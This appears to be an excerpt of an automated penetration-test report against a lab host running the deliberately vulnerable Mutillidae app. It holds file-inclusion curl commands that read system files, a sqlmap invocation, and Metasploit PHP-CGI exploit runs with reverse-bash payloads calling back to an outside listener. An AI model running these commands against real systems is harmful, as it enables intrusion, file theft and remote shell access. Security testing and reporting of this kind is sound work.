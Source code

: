    ```bash
curl 'http://192.168.1.113/cgi-bin/?file=/var/log/syslog'
    ```
- Type: LFI File Download
  - Details: Downloaded /etc/crontab
  - PoC:
    
    ```bash
curl 'http://192.168.1.113/cgi-bin/?file=/etc/crontab'
    ```
- Type: http_post_exploit summary
  - Details: 2025-09-02 02:25:30,460 - INFO - Starting HTTP post-exploitation of 192.168.1.113:80 using reconnaissance data
2025-09-02 02:25:30,820 - INFO - Running: sqlmap -u http://192.168.1.113/mutillidae/user-info.php -p username --batch --dbs --level 3 --risk 2
2025-09-02 02:25:36,243 - INFO - Testing Metasploit HTTP post-exploitation: exploit/unix/webapp/php_cgi_arg_injection
2025-09-02 02:25:36,244 - INFO - Running: msfconsole -q -x use exploit/unix/webapp/php_cgi_arg_injection; set RHOSTS 192.168.1.113; set RPORT 80; set LHOST 192.168.1.16; set LPORT 4444; set PAYLOAD cmd/unix/reverse_bash; run; exit
2025-09-02 02:27:06,109 - INFO - Testing Metasploit HTTP post-exploitation: exploit/linux/http/php_cgi_script_header
2025-09-02 02:27:06,110 - INFO - Running: msfconsole -q -x use exploit/linux/http/php_cgi_script_header; set RHOSTS 192.168.1.113; set RPORT 80; set LHOST 192.168.1.16; set LPORT 4444; set PAYLOAD cmd/unix/reverse_bash; run; exit
2025-09-02 02:28:12,719 - INFO - Testing Metasploit HTTP post-exploitation: exploit/linux/http/php_cgi_query_string
2025-09-02 02:28:12,719 - INFO - Running: msfconsole -q -x use exploit/linux/http/php_cgi_query_string; set RHOSTS 192.168.1.113; set...

### SSH (Port 22)

- Type: ssh_post_exploit summary
  - Details: 2025-09-02 02:32:02,989 - WARNING - The best exploit found ('potential_exploit_finding') does not provide credentials for post-exploitation. No actions taken.
2025-09-02 02:32:02,990 - INFO - No actionable post-exploitation steps were taken.
